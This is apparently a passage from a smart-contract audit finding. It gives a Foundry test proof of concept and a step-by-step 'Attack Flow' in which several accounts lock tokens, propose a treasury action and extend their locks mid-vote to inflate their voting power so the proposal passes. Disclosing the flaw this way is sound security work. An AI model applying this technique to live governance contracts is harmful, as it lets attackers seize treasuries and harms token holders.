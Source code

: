 ```solidity 
            "Attack should at least double effective voting power"
        );
​
        // Check proposal state
        vm.warp(block.timestamp + governance.votingPeriod());
        IGovernance.ProposalState state = governance.state(proposalId);
        
        assertTrue(
            state == IGovernance.ProposalState.Succeeded,
            "Proposal should succeed with manipulated votes"
        );
    }
```

Attack Flow
Initial Setup:
```solidity
// Attacker0 locks maximum duration initially
vm.startPrank(attackerAccounts[0]);
veToken.lock(500_000e18, 1460 days);
vm.stopPrank();
​
// creates other accounts with shoerter duration
for(uint i = 1; i < attackerAccounts.length; i++) {
    vm.startPrank(attackerAccounts[i]);
    uint256 lockAmount = 200_000e18 * (i + 1);
    veToken.lock(lockAmount, 365 days);
    vm.stopPrank();
}
Create and Vote on Proposal:

// Create malicious proposal
uint256 proposalId = governance.propose(
    targets,
    values,
    calldatas,
    "Malicious Proposal",
    IGovernance.ProposalType.TreasuryAction
);
​
// Initial votes cast
governance.castVote(proposalId, true);
Execute Attack:

// Other accounts extend their locks to max duration
for(uint i = 1; i < attackerAccounts.length; i++) {
    vm.startPrank(attackerAccounts[i]);
    uint256 extensionDays = 1095 days;
    veToken.extend(extensionDays);
    governance.castVote(proposalId, true);
    vm.stopPrank();
}
```
